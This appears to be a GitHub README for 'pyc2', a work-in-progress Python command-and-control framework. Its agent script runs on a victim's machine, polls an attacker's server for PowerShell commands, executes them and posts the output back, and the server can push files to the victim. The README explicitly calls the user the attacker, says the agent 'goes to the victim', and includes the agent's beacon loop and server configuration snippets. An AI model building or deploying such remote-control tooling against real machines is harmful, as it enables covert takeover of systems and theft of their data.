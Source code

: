 # pyc2-c2overPOSTresponse

This project is still under development. This is a simple C2 framework that allows you to run Powershell commands in HTTP responses. 

It works as follows: 
- Run server.py to start a http server
- Run agent.py to send a POST request
- The server sesponds to the request with a powershell command that is ran by agent.py
- agent.py sends another POST request after the specified time with the command response
- I am working on a mechanism to allow the attacker to send a different response but for now it's a loop

The framework also alows the attacker to upload a file to the victim by sending a powershell command that would sends a HTTP GET request to the server. e.g., wget

## Installation

Download the .py files and run them. 
Agent.py goes to the victim and Server.py is for you : ) 

## Usage

### Configure Agent.py

Agent.py needs to be installed and ran on the victim machine. Provide the C2 url as shown below.

```
    url = "http://localhost:8080"  # Replace your C2 URL

```

The http requests are sent in time intervals. You can set this in Agent.py as well. 

```
output = 'No command Ran'
    while True:
        command_to_run = http_sender(output)
        if command_to_run:
            output = run_powershell_command(command_to_run) 
        # Sleep for a specified ammount of time (10 seconds) before sending the next request   
        time.sleep(10)  
        count =+ 1
```

Each HTTP POST request will require you to enter a desired command from the server side that will be sent in the HTTP response message body

### Configure Server.py

Configure the host and port you wish to run the C2 server on 

```
host = "localhost"
port = 8080
```
Specify where you want to save the command output logs

```
        # Append the message body to a text file
        with open('received_messages.txt', 'a') as file:
            file.write(message_body + '\n')
```

Specify the directory of the file you would like to upload using HTTP GET

```
       def do_GET(self):
        # Define the directory where your files are located
        file_directory = "File Path"
```

## Summarized UML Sequence Diagram 

<img width="465" alt="image" src="https://github.com/dewardvide/pyc2-c2overPOSTresponse/assets/91884298/ff5801a8-8a8f-4f92-af0e-44bffb69c7f5">

## Contributing

Pull requests are welcome. For major changes, please open an issue first
to discuss what you would like to change.

Please make sure to update tests as appropriate.

## License

[MIT](https://choosealicense.com/licenses/mit/)
